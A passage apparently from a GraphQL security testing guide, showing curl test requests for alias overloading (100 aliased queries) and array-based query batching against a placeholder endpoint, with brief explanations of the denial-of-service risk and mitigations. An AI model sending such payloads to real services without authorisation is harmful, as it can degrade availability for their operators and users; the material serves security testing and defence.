 ```graphql
    -d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
    'https://example.com/graphql'
```

To mitigate this, implement alias count limits, query complexity analysis, or rate limiting to prevent resource abuse.

### **Array-based Query Batching**

**Array-based Query Batching** is a vulnerability where a GraphQL API allows batching multiple queries in a single request, enabling an attacker to send a large number of queries simultaneously. This can overwhelm the backend by executing all the batched queries in parallel, consuming excessive resources (CPU, memory, database connections) and potentially leading to a **Denial of Service (DoS)**. If no limit exists on the number of queries in a batch, an attacker can exploit this to degrade service availability.

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```

In this example, 10 different queries are batched into one request, forcing the server to execute all of them simultaneously. If exploited with a larger batch size or computationally expensive queries, it can overload the server.

### **Directive Overloading Vulnerability**
